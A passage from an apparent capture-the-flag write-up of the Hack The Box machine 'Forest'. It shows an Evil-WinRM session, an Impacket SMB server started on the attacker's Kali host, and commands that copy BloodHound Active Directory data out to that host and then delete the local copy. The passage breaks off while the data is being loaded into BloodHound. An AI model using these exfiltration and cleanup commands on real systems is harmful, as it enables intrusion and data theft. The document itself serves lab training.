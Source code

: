 
    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir

        Directory: C:\Users\svc-alfresco\appdata\local\temp

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/18/2019   3:56 AM          12740 20191018035650_BloodHound.zip
    -a----       10/18/2019   3:56 AM           8978 Rk9SRVNU.bin   



I'll use `smbserver.py` to exfil the results. On my box:



    root@kali# smbserver.py share . -smb2support -username df -password df
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Config file parsed                                   
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed                                   
    [*] Config file parsed                                   
    [*] Config file parsed     



Now on Forest:



    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use \\10.10.14.6\share /u:df df
    The command completed successfully.

    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20191018035324_BloodHound.zip \\10.10.14.6\share\

    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> del 20191018035324_BloodHound.zip   

    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use /d \\10.10.14.6\share
    \\10.10.14.6\share was deleted successfully.



#### Load Data

I covered the [installation of Bloodhound in my Reel
writeup](/htb-reel.md#bloodhound). I'll load the data by
clicking the

![](/img/1571511000876.png)

button on the right side, and selecting my zip exfil. Under "Queries",
I'll click "Find Shorter Paths to Domain Admin", and get the following
graph:
